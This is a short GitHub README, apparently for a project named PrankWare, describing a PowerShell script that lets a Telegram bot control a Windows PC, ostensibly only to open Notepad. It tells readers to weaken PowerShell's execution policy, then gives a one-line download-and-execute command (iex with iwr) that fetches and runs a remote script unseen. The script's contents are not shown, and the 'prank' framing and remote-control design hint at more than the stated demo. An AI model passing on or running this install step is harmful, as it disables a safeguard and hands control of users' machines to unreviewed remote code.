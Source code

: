# Telegram-Controlled PowerShell Script

This PowerShell script lets you control your PC through a Telegram bot. It listens for the `/open_notepad` command and launches Notepad when you send it from your Telegram account.

## 🛠 Prerequisites

- Windows 10 or newer
- PowerShell 5 or later (built-in)
- Internet connection
- A Telegram bot token (from [@BotFather](https://t.me/BotFather))
- Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

## Powershell (Permanent fix)
```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```
## Powershell (One-time fix for your session)
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
```
iex (iwr "https://raw.githubusercontent.com/xtofuub/PrankWare/refs/heads/main/prankware.ps1")
